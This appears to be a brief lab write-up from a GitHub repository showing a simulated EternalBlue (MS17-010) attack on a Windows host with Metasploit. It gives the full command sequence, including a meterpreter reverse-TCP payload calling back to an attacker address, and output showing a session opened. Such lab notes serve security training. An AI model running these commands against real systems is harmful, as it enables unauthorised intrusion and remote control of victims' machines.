

# Exploiting Vulnerabilities

Here we simulate exploiting a Windows machine with EternalBlue.

## Commands Used
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

## Output
```
[*] Exploit completed, sending stage...
[*] Meterpreter session 1 opened
```



## Lessons Learned
- Requires correct target version and open SMB port.
- Demonstrates post-exploitation potential.
